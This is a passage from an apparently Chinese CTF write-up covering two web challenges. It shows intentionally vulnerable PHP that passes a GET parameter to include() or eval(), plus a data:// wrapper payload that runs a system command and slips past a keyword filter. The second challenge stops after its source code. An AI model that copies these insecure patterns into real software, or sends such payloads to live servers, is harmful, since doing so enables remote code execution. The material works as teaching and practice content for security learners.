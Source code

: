 ## 39

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:13:21
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
}
```

可以用`?>`来闭合php代码，使得其后的`.php`会被当中普通的html字符直接显示在页面上
记得引号绕过正则过滤

```
?c=data://text/plain,<?= system("tac fla''g.php");?>
```

## 40-无参数命令执行

**GXYCTF的禁止套娃**

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 06:03:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/


if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```
